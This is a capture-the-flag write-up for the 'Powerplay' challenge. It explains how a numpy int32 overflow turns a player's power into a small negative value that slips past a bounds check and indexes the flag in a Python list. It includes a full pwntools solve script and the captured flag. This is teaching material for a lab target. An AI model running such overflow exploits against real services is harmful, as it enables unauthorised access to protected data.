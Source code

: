 ﻿# Powerplay

## Description
Pump yourself up with power  to get an inspirational quote.

## Walkthrough
In this challenge we are given an IP and port to connect to a service and the source code for the service being run.

By checking the service source code we can see that it's a simple game to retrieve inspirational quotes:
```python
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
				exit()
		else:
			raise Exception('What?')
```

The game when connected to, firstly asks how many players we want to play, this is later then used to initialize an array filled with zeros through the help of the python library [NumPy](https://numpy.org/). In this initialization the type of values allowed inside the array are of type 32-bit integers, this can be seen in the following snippet:
```python
player_count = int(input('How many players participate?\n'))
power = np.zeros(player_count, dtype = np.int32)
```

After retrieving the number of players the service requests the user to set each base power level for each player, while doing this the service sets the array values for each player:
```python
for i in range(player_count):
	power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
```

If we request that 3 players are used and that the players base power levels are 1,2,3 respectively then the power array will be as follows: `[1,2,3]`

After setting the power levels the service initiates a control variable named `ready`, this one is used so that the user must at least choose the option `pump up` at least one time before being able to retrieve a quote when choosing the `cash in` option. 
```python
ready = False
...
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
```

If the user chooses to `pump` the players then all of their base levels are equal to their previous base level squared. This can be seen bellow:
```python
		if option == 1:
			power = power**2
			ready = True
``` 

The resulting power levels, with the previous example in mind, will be as follows: `[1,4,9]`

If the user want to retrieve the quotes then the option `cash in` is used, this option firstly checks if the user choose the option `pump up` at least one time and then for each player it check if their power level is bellow the number of quotes in the system. After this check it retrieves the quotes present inside of a `prizes` list. This list is previously initialized with the concatenation of a quotes list, 4 elements named `missingno` (this value is an easter egg to a popular Pokemon [glitch](https://www.nintendo.com/consumer/systems/gameboy/trouble_specificgame.jsp#missingno)) and finally 24 elements that are the flag we are looking for. To retrieve the quotes the service uses the current player base power level as the index for the prizes and due to the previous check of the players power level being bellow the number of quotes in the system, the intended behavior is only retrieving quotes.
```python
prizes = quotes + ['missingno'] * 4 + [flag] * 24
...
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
				exit()
```

Although the flag values seem unreachable, the service as a flaw that allows us to retrieve them. While initializing the power array the data type used is 32-bit integers, this choice seems harmless but when an integer is big enough to be close to it's standard limit, in this case the 32 bit integer maximum is `2^31−1`, when incremented, the value will loop over and be set as the minimum value of that given standard, in this case `−2^31`, this problem is named [Integer Overflow](https://en.wikipedia.org/wiki/Integer_overflow). This bug causes a logic problem in the service, this is due to Python allowing negative indexes in list to [retrieve values from reversed list](https://www.geeksforgeeks.org/python-negative-index-of-element-in-list/), allowing therefore the retrieval of values besides quotes, even if the quotes size check is used (`power[i] < len(quotes)`).

To exploit this we can use only one player, after setting it's base value we should try to increment it until it's negative and then choose the option to retrieve the quote, if we want the value flag we should also be careful that only 24 flags are present in the `prizes` list, so we should try to overflow the integer no more than `-24`, to due this in a faster way we can just brute force locally and then with the correct player's base levels and number of `pump up`'s we can retrieve the flag remotely. This can be seen in the program bellow:
```python
from pwn import *
import numpy as np
context.log_level='critical'

# Remote Server
host = '<IP>'
port = <PORT>

# Helper function to interact with the process
def getFlag(base, pumps):
    # Step 0: Start the remote connection
    r = remote(host, port)

    # Step 1: Input the number of players (1)
    r.recvuntil(b'How many players participate?\n')
    r.sendline(b'1')  # We are simulating 1 player

    # Step 2: Set the initial power
    r.recvuntil(f'Player 0, how strong are you right now?\n'.encode())
    r.sendline(str(base).encode())

    # Step 3: Pump up the power 'pump' times by choosing the "pump up" option
    for pump in range(pumps):
        r.recvuntil(b'What do you want to do?\n1) pump up\n2) cash in')
        r.sendline(b'1')  # Option to pump up (square the power)

    # Step 4: Choose "cash in" to receive the prize
    r.recvuntil(b'What do you want to do?\n1) pump up\n2) cash in')
    r.sendline(b'2')  # Option to cash in (receive a prize)

    # Step 5: Receive the prize
    output = r.recvall()  # Receive the full output of the game

    # Step 6: Close the remote connection after we are done
    r.close()

    # Retrieve flag from quote
    flag = re.search(r"ENO\{.*?\}", output.decode()).group(0)
    return flag

def getBaseAndPumps():
    # Iterate over possible base values
    for base in range(-34710000, -99999999, -1):
        power = np.int32(base)
        for pump in range(2):
            power = np.int32(power ** 2)  
            if power < 0 and power > -24:
                return base, pump + 1 
    return None, None


if __name__ == '__main__':
    # Get base and pumps
    base, pumps = getBaseAndPumps()
    if base is None or pumps is None:
        print("[!] No valid base and pumps found.")
        exit()

    # Retrieve flag
    print(f'[i] Flag: {getFlag(base, pumps)}')
```

Finally by running the program we are able to retrieve the flag:
```bash
$ python3 solve.py
[i] Flag: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}

$
```
